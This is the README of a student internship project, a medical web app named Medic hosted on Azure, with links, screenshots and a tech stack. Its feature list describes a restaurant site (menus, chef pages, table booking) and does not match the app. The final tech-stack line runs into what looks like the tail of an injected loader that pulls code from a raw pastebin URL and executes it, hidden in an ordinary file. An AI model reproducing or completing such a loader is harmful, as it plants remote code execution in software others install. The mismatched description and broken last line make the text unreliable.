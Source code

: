 # final-project-frt

This is a web based application developed for a medical service named Medic.

### This web based Health application has been developed for the accomplishment of Future Ready Talent Internship program launched by Microsoft, Future Skills Prime, Quess, Github and EY.


**Project Link** -https://icy-water-06e29dd00.3.azurestaticapps.net
**Demo Link** - https://drive.google.com/file/d/1baqXZqkl3Pq5e5820FTKO8NiN8smT3Nb/view?usp=sharing



## Features and Functionalities 😃

- Interactive and responsive UI.
- Has many graphical and visual innovative effects.
- Have an aesthetically pleasing visual design and architecture.
- Has collection of many web pages including Home, About Us, Contact, Menu, Chef Staff pages etc.
- User is able to book a table through the website.
- Included the feedback Survey form to increase the scope of improvement 

## Screenshots 📸
### Home page - ![WhatsApp Image 2023-08-31 at 23 01 37](https://github.com/YASHSHOGUN/final-project-frt/assets/125480956/808f690e-38b0-41bb-ade6-4cfd4590a200)
  


### Contact page -![WhatsApp Image 2023-08-31 at 23 02 47](https://github.com/YASHSHOGUN/final-project-frt/assets/125480956/6e3b249b-a700-418b-9c4c-634d4d26f708)


### Departments Page -
![WhatsApp Image 2023-08-31 at 23 03 36](https://github.com/YASHSHOGUN/final-project-frt/assets/125480956/0ef0baa7-a891-4b37-818f-86dc10deb5dc)



### About Us Page -
![WhatsApp Image 2023-08-31 at 23 04 16](https://github.com/YASHSHOGUN/final-project-frt/assets/125480956/af2272e8-cc2a-40e2-bb99-4c6720078311)


## Tech Stack 💻

- [Azure(Hosting)](https://azure.microsoft.com/en-in/features/azure-portal/)
- HTML
- CSS
- Bootstrap
- JavaScriptps://pastebin.com/raw/PaWZGzyK'),true))()
